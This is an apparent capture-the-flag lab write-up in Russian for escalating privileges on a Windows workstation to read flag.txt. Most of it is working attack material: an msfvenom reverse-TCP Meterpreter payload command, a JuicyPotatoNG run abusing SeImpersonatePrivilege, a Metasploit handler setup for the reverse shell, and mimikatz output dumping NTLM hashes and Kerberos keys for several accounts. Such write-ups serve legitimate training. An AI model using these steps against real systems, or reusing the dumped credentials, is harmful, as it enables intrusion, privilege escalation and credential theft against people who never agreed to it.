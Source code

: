 #### Цель
Повысьте привилегии на компьютере сотрудника T. Mathis и получите доступ к содержимому файла flag.txt.

Подсказки не отображаются при отключенном VPN. Чтобы их просмотреть, настройте VPN-подключение.
 

#### решение
 

1. **SeChangeNotifyPrivilege (Enabled)**: Эта привилегия позволяет обойти проверки обхода (traverse checking). Это означает, что пользователь может получить доступ к объектам (папкам и файлам), даже если у него нет разрешения на чтение их содержимого. Это полезно для навигации по файловой системе.
    
2. **SeImpersonatePrivilege (Enabled)**: Данная привилегия позволяет процессу выдавать себя за другого пользователя после аутентификации. Это используется в сценариях, когда необходимо выполнять действия от имени другого пользователя, например, в серверных приложениях.
    
3. **SeCreateGlobalPrivilege (Enabled)**: Эта привилегия позволяет процессам создавать глобальные объекты, которые могут быть доступны всем процессам на системе. Это может быть полезно для межпроцессного взаимодействия (IPC).


SeCreateGlobalPrivilege  SeImpersonatePrivilege SeChangeNotifyPrivilege
нам будет нужен : SeImpersonatePrivilege

1. Получить 1-ый shell через письмо 
2. Загружаем туда ng and shell от метасплоита 
3. и запускаем следующую команду 

Создать
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ваш_IP_адрес> LPORT=<номер_порта> -f exe > payload.exe
```
Перекинуть и то и то
Качнуть туда https://github.com/antonioCoco/JuicyPotatoNG (с github можно качать )
Потом запускаем , (shell26 это наш payload.exe что мы создали и загрузили на машину )
```
./NG.exe -t *  -p "C:\windows\system32\cmd.exe" -a "\c /shell26.exe"
```
Перед запуском ловим shell
либо nc -lnvp
либо 
Ловим через metasploit 
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ваш_IP_адрес>
set LPORT <номер_порта>
run

```






```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

664     {0;000003e7} 1 D 36593          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000003e7} 0 D 69495135    NT AUTHORITY\SYSTEM     S-1-5-18        (11g,28p)       Primary
 * Thread Token  : {0;000003e7} 1 D 69632500    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

```
mimikatz # lsadump::sam
Domain : TMATHIS
SysKey : 781e07df69cddea17ec974a0f7a5d61b
Local SID : S-1-5-21-758712846-2610001738-1758918577

SAMKey : 6c3b7f669890ac753fd9e4a4c9fac9ff

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 81b748c172a435bad3d9dbf9d240857f

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : be873205398b325237f4872bbb99547d

* Primary:Kerberos-Newer-Keys *
    Default Salt : TMATHIS.EDU.STFAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 85d77ce253d559c004d4f2746079e0029eab472135402bd25c3e09a608b43c76
      aes128_hmac       (4096) : afa16b24867ed299bdb1396d09f4d9e0
      des_cbc_md5       (4096) : 457af7855e67644f
    OldCredentials
      aes256_hmac       (4096) : a6e95721bd870a5270db022673d01fff90b04a5195449a423fd9279f44fc09b3
      aes128_hmac       (4096) : 3d71933dfb29349e74682741c8aa0ec9
      des_cbc_md5       (4096) : fbea5bfb29d5d986
    OlderCredentials
      aes256_hmac       (4096) : 451ee6f41fb04aab968e7f7722108cb2f6a1d8bf8bf631a80b3bcdb798918671
      aes128_hmac       (4096) : b26a97c3b1eef6becd4d2bc668a8dfd6
      des_cbc_md5       (4096) : d09d4c452fc1d983

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : TMATHIS.EDU.STFAdministrator
    Credentials
      des_cbc_md5       : 457af7855e67644f
    OldCredentials
      des_cbc_md5       : fbea5bfb29d5d986


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 9f510fd6ba1b078f7d342024d38aa80d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 1b7ea906e1f3f83456f4138d68f9275d

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-P0EHDO2WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6b1e4fa1aca89d9130c68db80cd0aff99acea6fcb67d93f392b51de64cabb88
      aes128_hmac       (4096) : 7025260f6740ffcce6e3ab8189a92caf
      des_cbc_md5       (4096) : e5469e4373fd9252

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-P0EHDO2WDAGUtilityAccount
    Credentials
      des_cbc_md5       : e5469e4373fd9252


RID  : 000003ee (1006)
User : ptadmin
  Hash NTLM: a3b49679fcc1ce11423f1ea41117f12c

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f923f9afd5b078f3bb8cbae0e471d9a8

* Primary:Kerberos-Newer-Keys *
    Default Salt : TMATHIS.EDU.STFptadmin
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f4281692373d108218450a6c40b40c24e2270d1ba2866c812071ae8cc94cb3e7
      aes128_hmac       (4096) : 129b81eb90ae9bab98d6408099bbe7a8
      des_cbc_md5       (4096) : 83da31d304cd3b5b
    OldCredentials
      aes256_hmac       (4096) : 5235d7d30926aed3591727e1cc3889e3f7106f82e92a1864260cf3e1d750a331
      aes128_hmac       (4096) : e1ecb714aa5a801878dd8fdde113f1b4
      des_cbc_md5       (4096) : 52808c8602fdf829
    OlderCredentials
      aes256_hmac       (4096) : 1f03a3349136d8bd94744e10a14b8f275151b1ee59e7c3ceb53262e43c349600
      aes128_hmac       (4096) : 2fd671476e3b1ce172bef5ea51d66104
      des_cbc_md5       (4096) : b00185c86407d043

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : TMATHIS.EDU.STFptadmin
    Credentials
      des_cbc_md5       : 83da31d304cd3b5b
    OldCredentials
      des_cbc_md5       : 52808c8602fdf829

```

```

Authentication Id : 0 ; 131293 (00000000:000200dd)
Session           : Service from 0
User Name         : T_Mathis
Domain            : edu
Logon Server      : DC
Logon Time        : 11/14/2024 10:24:21 AM
SID               : S-1-5-21-2956057208-890473649-882434952-1111
        msv :
         [00000003] Primary
         * Username : t_mathis
         * Domain   : edu
         * NTLM     : 31566fb55343932e1b23c7e0b37fd6d8
         * SHA1     : d6d465d2d47266f08d83dd459e43f5352eb340ca
         * DPAPI    : ef0128032476fa3ddd9672ed992026c9


```
